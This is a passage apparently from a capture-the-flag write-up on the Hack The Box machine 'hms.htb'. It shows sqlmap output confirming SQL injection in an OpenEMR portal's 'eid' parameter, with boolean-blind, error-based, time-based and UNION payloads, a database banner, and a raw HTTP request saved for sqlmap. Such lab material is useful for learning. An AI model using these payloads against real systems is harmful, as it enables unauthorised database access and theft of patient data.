 ```
[*] starting @ 23:28:23 /2020-07-14/

[23:28:23] [INFO] fetched random HTTP User-Agent header value 'Mozilla/5.0 (Windows NT 5.2) AppleWebKit/535.1 (KHTML, like Gecko) Chrome/14.0.792.0 Safari/535.1' from file '/opt/sqlmap/data/txt/user-agents.txt'
[23:28:23] [INFO] resuming back-end DBMS 'mysql'
[23:28:23] [INFO] testing connection to the target URL
[23:28:23] [WARNING] there is a DBMS error found in the HTTP response body which could interfere with the results of the tests
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: eid (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: eid=(SELECT (CASE WHEN (8435=8435) THEN 1 ELSE (SELECT 1164 UNION SELECT 9741) END))

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: eid=1 AND EXTRACTVALUE(4452,CONCAT(0x5c,0x71787a7a71,(SELECT (ELT(4452=4452,1))),0x717a716271))

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: eid=1 AND (SELECT 5294 FROM (SELECT(SLEEP(5)))KKhg)

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: eid=1 UNION ALL SELECT NULL,NULL,CONCAT(0x71787a7a71,0x73535a4b567775646f4d7849526d4b6d4a697572466f44734446724d5072526b7079474c6a616242,0x717a716271),NULL-- -
---
[23:28:23] [INFO] the back-end DBMS is MySQL
[23:28:23] [INFO] fetching banner
back-end DBMS operating system: Linux Ubuntu
back-end DBMS: MySQL >= 5.1
banner: '5.7.30-0ubuntu0.18.04.1'
[23:28:23] [INFO] fetched data logged to text files under '/home/noraj/.sqlmap/output/hms.htb'
[23:28:23] [WARNING] you haven't updated sqlmap for more than 84 days!!!

[*] ending @ 23:28:23 /2020-07-14/
```

Alternatively you can store the raw HTTP request in a file:

```
GET /portal/add_edit_event_user.php?eid=1 HTTP/1.1
Host: hms.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Cookie: OpenEMR=jcn4a7ce07kbngbo7r9rolttgu; PHPSESSID=fcfeq8h77phga1bs6b1cshh64e
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```
